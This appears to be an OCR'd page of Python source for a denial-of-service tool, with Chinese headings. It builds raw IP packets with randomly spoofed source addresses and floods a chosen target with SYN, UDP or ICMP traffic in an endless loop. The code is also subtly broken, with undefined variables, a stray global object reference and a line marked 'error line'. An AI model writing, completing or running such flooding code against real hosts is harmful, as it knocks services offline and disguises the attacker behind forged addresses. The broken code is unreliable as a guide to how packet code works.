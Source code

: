 ## 封包

#### 生成IP包

```python
def generate_ip_packet(self, trsprtl):
    # random generate source address
    srcaddr = f"{random.randint(0,240)}.{random.randint(0,240)}.{random.randint(0,240)}.{random.randint(0,240)}"
    # random generate source port
    srcport = random.randint(10000, 60000)
    # generate ip segment according to the setting transport layer protocol
    if trsprtl == socket.IPPROTO_TCP:
        tcp_header = self.generate_header_tcp(srcaddr, dstaddr, srcport, dstport)
        transport_segment = tcp_header
    elif trsprtl == socket.IPPROTO_UDP:
        # the longer data udp sent, the better effect attack has
        # icmp will echo the data， while udp won't
        # so icmp has better attack effect than udp
        udp_data = "YijunStudioYijunStudioYijunStudioYijunStudioYijunStudioYijunStudio"
        udp_header = self.generate_header_udp(srcaddr, dstaddr, srcport, dstport, udp_data)
        transport_segment = udp_header + udp_data.encode()
    elif trsprtl == socket.IPPROTO_ICMP:
        icmp_header = self.generate_header_icmp()
        transport_segment = icmp_header
    # the length of segment
    transport_segment_size = len(transport_segment)
    print(transport_segment_size)
    # call generate_header_ip to generate ip header
    ip_header = DoS_obj.generate_header_ip(srcaddr, dstaddr, transport_segment_size, trsprtl)
    # assemble ip header and segment into a whole ip packet
    dos_ip_packet = ip_header + transport_segment
    return dos_ip_packet
```

## 攻击

#### 进行DoS攻击

```python
def DoS_attack(self, dstaddr, dstport, dos_type):
    dos_type = dos_type.lower()
    if dos_type == 'syn':
        transport_layer_protocol = socket.IPPROTO_TCP
    elif dos_type == 'udp':
        transport_layer_protocol = socket.IPPROTO_UDP
    elif dos_type == 'icmp':
        transport_layer_protocol = socket.IPPROTO_ICMP
    # build socket
    dos_socket = socket.socket(socket.AF_INET, socket.SOCK_RAW, transport_layer_protocol)
    dos_socket.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)    # error line
    # continous packet sending
    while True:
        ip_packet = self.generate_ip_packet(transport_layer_protocol)
        client = (dstaddr, dstport)
        dos_socket.sendto(ip_packet, client)
        print(ip_packet)
        print(f"Packet Send Success.")
```
